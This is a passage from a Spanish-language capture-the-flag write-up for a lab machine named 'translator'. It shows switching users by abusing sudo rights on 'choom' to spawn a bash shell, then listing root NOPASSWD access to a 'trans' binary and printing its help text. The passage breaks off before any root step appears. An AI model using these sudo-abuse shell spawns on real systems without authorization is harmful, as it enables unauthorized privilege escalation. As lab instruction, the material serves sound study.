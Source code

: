 Vemos que podemos ejecutar el binario `choom` como el usuario `india` por lo que haremos lo siguiente:

```shell
sudo -u india choom -n 0 /bin/bash
```

Info:

```
india@translator:/home/ocean$ whoami
india
```

Con esto veremos que seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for india on translator:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User india may run the following commands on translator:
    (root) NOPASSWD: /usr/local/bin/trans
```

Vemos que podemos ejecutar el binario `trans` como el usuario `root` por lo que haremos lo siguiente.

```shell
sudo /usr/local/bin/trans -h
```

Info:

```
Usage:  trans [OPTIONS] [SOURCES]:[TARGETS] [TEXT]...

Information options:
    -V, -version
        Print version and exit.
    -H, -help
        Print help message and exit.
    -M, -man
        Show man page and exit.
    -T, -reference
        Print reference table of languages and exit.
    -R, -reference-english
        Print reference table of languages (in English names) and exit.
    -L CODES, -list CODES
        Print details of languages and exit.
    -S, -list-engines
        List available translation engines and exit.
    -U, -upgrade
        Check for upgrade of this program.

Translator options:
    -e ENGINE, -engine ENGINE
        Specify the translation engine to use.

Display options:
    -verbose
        Verbose mode. (default)
    -b, -brief
        Brief mode.
    -d, -dictionary
```